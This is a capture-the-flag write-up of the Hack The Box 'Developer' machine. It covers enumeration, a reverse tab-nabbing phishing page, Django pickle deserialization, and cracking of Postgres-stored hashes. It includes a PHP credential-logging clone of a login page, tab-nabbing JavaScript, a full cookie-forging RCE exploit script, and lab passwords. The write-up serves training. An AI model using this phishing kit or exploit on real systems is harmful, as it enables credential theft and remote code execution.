


<p align="right">   <a href="https://www.hackthebox.eu/home/users/profile/391067" target="_blank"></a>
</p>

<!-- > **Note** imitated from [ippsec's video](https://youtu.be/MjkDCy10BYM) & [0xdf's blog](https://0xdf.gitlab.io/2022/01/15/htb-developer.html) -->

# Enumeration

**IP-ADDR:** 10.10.11.103 developer.htb

**nmap scan:**
```bash
PORT   STATE SERVICE    VERSION
22/tcp open  ssh        OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 36:aa:93:e4:a4:56:ab:39:86:66:bf:3e:09:fa:eb:e0 (RSA)
|   256 11:fb:e9:89:2e:4b:66:40:7b:6b:01:cf:f2:f2:ee:ef (ECDSA)
|_  256 77:56:93:6e:5f:ea:e2:ad:b0:2e:cf:23:9d:66:ed:12 (ED25519)
80/tcp open  tcpwrapped
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Did not follow redirect to http://developer.htb/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

* Port 80, web server redirect to `developer.htb`

There is a signup page


and login page


**Gobuster** scan get so may responses with `301` with `Size: 0`. Most of requested directories that get 301 have `admin` common in them.
```bash
gobuster dir -u "http://developer.htb" -w /usr/share/seclists/Discovery/Web-Content/raft-small-directories.txt -o gobuster.txt -t 50
# ... [snip] ...
/admin                (Status: 301) [Size: 0] [--> /admin/]
/contact              (Status: 301) [Size: 0] [--> /contact/]
/wp-admin             (Status: 301) [Size: 0] [--> /wp-admin/]
/media                (Status: 301) [Size: 314] [--> http://developer.htb/media/]
/static               (Status: 301) [Size: 315] [--> http://developer.htb/static/]
/fileadmin            (Status: 301) [Size: 0] [--> /fileadmin/]
/profile              (Status: 301) [Size: 0] [--> /profile/]
/phpmyadmin           (Status: 301) [Size: 0] [--> /phpmyadmin/]
/_admin               (Status: 301) [Size: 0] [--> /_admin/]
/siteadmin            (Status: 301) [Size: 0] [--> /siteadmin/]
/webadmin             (Status: 301) [Size: 0] [--> /webadmin/]
/dashboard            (Status: 301) [Size: 0] [--> /dashboard/]
/myadmin              (Status: 301) [Size: 0] [--> /myadmin/]
/vsadmin              (Status: 301) [Size: 0] [--> /vsadmin/]
# ... [snip] ...
```

Any directory name which end with `admin`, that redirect to "Django administration" login page.


Other Directories

* `/static` directory don't have anything interesting.
* `/contact`, `/profile`, `/dashboard` redirect to `/accounts/login/`
* `/media` contian bunch of png and zip file.

After login, only found some ctf challenges


upon completing a challenge we get a new page for submit write up.

## Challenges: Easy Encryption

I chosen an easy challenge from Reversing Challenges "Lucky Guess", for other challenges or all challenges solution, [0xdf's blog](https://0xdf.gitlab.io/2022/01/15/htb-developer.html#challenges)


Challenge attachment contains a ELF 64-bit LSB pie executable binary

opening that binary in ghidra found a function doing xoring 2 variables and return flag


Doing XOR in cyberchef and got flag: **`"DHTB{gOInGWITHtHEfLOW}`**


upon flag submission, got the "Walkthrough Submission" window


# Foothold

## reverse tab-nabbing

When we submit Walkthrough link it appear in profile page and link opens in the new tab.


admin in opening link in Firefox browser
```bash
❯ nc -lvnp 8081
listening on [any] 8081 ...
connect to [10.10.14.24] from (UNKNOWN) [10.10.11.103] 50856
GET / HTTP/1.1
Host: 10.10.14.24:8081
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:75.0) Gecko/20100101 Firefox/75.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: keep-alive
Upgrade-Insecure-Requests: 1
```

This is a same bug found in the hackthebox site by [0xprashant](https://blog.0xprashant.in/posts/htb-bug/)

* **Tabnabbing** is a computer exploit and phishing attack, which persuades users to submit their login details and passwords to popular websites by impersonating those sites and convincing the user that the site is genuine.

So, This is a phishing attack where attacker could replace parent page if parent page implement user define urls insecurely.

"When a web developer wants a link to open in a new tab, they add `target="_blank"` to the `<a>` tag. 
```html
<a id="walkthrough_link" href="http://attacker" target="_blank">Lucky Guess</a>
```

The issue is, if that link leads to a malicious page and mitigation aren’t in place, then JavaScript on **that page**(new tab page) can actually change the location of the **original page**(parent page). The mitigation for this is to also add `rel="noopener nofollow"` to the `<a>` tag as well.", *0xdf*

The goal here will be to host a page so that when the admin clicks on the link, it open in a new tab that’s now visible. The JavaScript in that tab will reverse tab-nab the original tab to send it to another page and that page is cloned `http://developer.htb/accounts/login/` page hosted on our server and when the admin is done reading my page and comes back, they’ll think they’ve been logged out for some reason, and log in again we get his creds.

### setup tabnap phishing page

Clone login page and save it as `login.html`
```bash
wget http://developer.htb/accounts/login/
```

Create a `writeup.html` file and put this script.
```html
<html>
  <body>
    <script>
    if (window.opener) window.opener.parent.location.replace('http://{tun0}/accounts/login/');
    if (window.parent != window) window.parent.location.replace('https://{tun0}/accounts/login/');           
    </script>
  </body>
</html>
```

Finally, Create a `index.php` file to handle requests.
```php
<?php

$request = $_SERVER['REQUEST_URI'];

switch ($request) {
    case '/accounts/login/' :
        $method = $_SERVER['REQUEST_METHOD'];
        if ($method == 'POST'){
            header('Location: http://developer.htb/accounts/login/');
            $file = fopen("log.txt", "a");
 
            foreach($_POST as $variable => $value) {
                fwrite($file, $variable);
                fwrite($file, "=");
                fwrite($file, $value);
                fwrite($file, "\r\n");
            }
            
            fwrite($file, "\r\n");
            fclose($file);
            exit;
        } elseif ($method == 'GET'){
            require __DIR__ . '/login.html';
            break;
        }
    case '/writeup' :
        require __DIR__ . '/writeup.html';
        break;
    default:
        http_response_code(404);
        break;
}
?>
```

save all files and start php server on port 80
```bash
sudo php -S {tun0}:80
```

after everything setup, submit writeup link `http://{tun0}/writeup` in "Walkthrough Submission"

immediately after that you could get some requests from `developer.tab` in your server then server creates `log.txt` which could contain admin creds.


Now we can login to djano admin panel <!--admin:SuperSecurePassword@HTB2021-->


* Admin name is: **Jacob**

from new subdomain from admin panel


This subdomain is running [sentry](https://sentry.io/for/django/) monitor for django.

* **Sentry's Django** integration enables automatic reporting of errors and exceptions.


Registering new account and login don't give anything interesting. but login with django admin creds with email `Jacob@developer.htb` got admin panel in sentry.

## Django Deserialization

<!-- TODO: Go in depth -->

And there's the issue, when we create a project and then try to remove it. api through an error; [full error](screenshots/ApiError.png)

And this error leaks the django webapp secret key



<!--secret-key:c7f3a64aa184b7cbb1a7cbe9cd544913-->

* There is a blog post on django Remote Code Execution using api secret key from [blog.scrt.ch](https://blog.scrt.ch/2018/08/24/remote-code-execution-on-a-facebook-server/)


Here's the exploit script, *copied from 0xdf blog*
```py
import os
import django.contrib.sessions.serializers
import django.core.signing
import requests
import sys


cmd = sys.argv[1]
SECRET_KEY = 'c7f3a64aa184b7cbb1a7cbe9cd544913'
cookie = ".eJxrYKotZNQI5UxMLsksS80vSo9gY2BgKE7NKymqDGUpLk3Jj-ABChQEFyZaljmblJv7-hQyRXABhUpSi0uS8_OzM1PBWsrzi7JTU0KF4hNLSzLiS4tTi-KTEpOzU_NSQpUgxumVlmTmFOuB5PVccxMzcxyBLCeoGl4kfZkp3qylegCrOjNK:1m45xH:Zcs2GcAl2Knls_STRUkB22PKJlg"
newContent = django.core.signing.loads(cookie, key=SECRET_KEY,
                                       serializer=django.contrib.sessions.serializers.PickleSerializer,
                                       salt='django.contrib.sessions.backends.signed_cookies')


class PickleRce(object):
    def __reduce__(self):
        return os.system, (cmd,)


newContent['testcookie'] = PickleRce()

cookie = django.core.signing.dumps(newContent, key=SECRET_KEY,
                                   serializer=django.contrib.sessions.serializers.PickleSerializer,
                                   salt='django.contrib.sessions.backends.signed_cookies', compress=True)
print("Forged cookie:\n" + cookie)

requests.get("http://developer-sentry.developer.htb/sentry/", cookies={"sentrysid": cookie})
```

Script only running in python2 for me, running. In python3 it give this error and i'm not a django dev or not spent too much time debug the error.
```
django.core.exceptions.ImproperlyConfigured: Requested setting DEFAULT_HASHING_ALGORITHM, but settings are not configured. You must either define the environment variable DJANGO_SETTINGS_MODULE or call settings.configure() before accessing settings.
```

Get reverse shell


# Privesc

## Postgresql Enumeration

There are 2 users
```bash
karl:x:1000:1000:Karl Travis:/home/karl:/bin/bash
mark:x:1001:1001:,,,:/home/mark:/bin/bash
```

There are 2 services running so first thing is to find their config files.
```bash
/etc/sentry/sentry.conf.py
/var/www/developer_ctf/developer_ctf/settings.py
```

Both config file contains clear text passwords for Postgres database

  

And also some local services running Postgres and Redis databases.
```bash
LISTEN    0         224              127.0.0.1:5432             0.0.0.0:*
LISTEN    0         511              127.0.0.1:6379             0.0.0.0:*
```

enumerating Postgresql databases; https://book.hacktricks.xyz/pentesting/pentesting-postgresql

```bash
platform --> ctf_admin:CTFOG2021
sentry --> sentry:SentryPassword2021
```

Some basic psql commands
```bash
psql -h localhost -d <database_name> -U <User> #Password will be prompted
\list # List databases
\c <database> # use the database
\d # List tables
\du+ # Get users roles
\q # exit from psql
SELECT * FROM auth_user;
```

`platform` contains webapp users creds in `auth_user` table.


And sentry contains system users password hashes and we already have Jacob's password: `SuperSecurePassword@HTB2021`, and not useful anymore but karl password could work in `su`
```bash
karl:pbkdf2_sha256$12000$wP0L4ePlxSjD$TTeyAB7uJ9uQprnr+mgRb8ZL8othIs32aGmqahx1rGI=
```


For cracking these hashes with john we need to append `$django$*1*` in every hash, as per [requirement](https://github.com/piyushcse29/john-the-ripper/blob/2fee31fd199a3e288f01c04f8cc8abaaa7dbc3cc/src/django_fmt.c#L9)
```bash
karl:$django$*1*pbkdf2_sha256$12000$wP0L4ePlxSjD$TTeyAB7uJ9uQprnr+mgRb8ZL8othIs32aGmqahx1rGI=
```



ssh in with karl creds: `karl:insaneclownposse`

<!-- 1cf9cd6ba96bc431107fb4b235bd3379 -->

User "karl" have sudo rights 
```bash
karl@developer:~$ sudo -l
[sudo] password for karl: 
Matching Defaults entries for karl on developer:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User karl may run the following commands on developer:
    (ALL : ALL) /root/.auth/authenticator
```

And it's ELF binary.


## Rust binary reversing

- [ ] Rust binary reversing.

* [0xdf writeup](https://0xdf.gitlab.io/2022/01/15/htb-developer.html#shell-as-root)
* [ippsec video](https://www.youtube.com/watch?v=MjkDCy10BYM&t=3145s)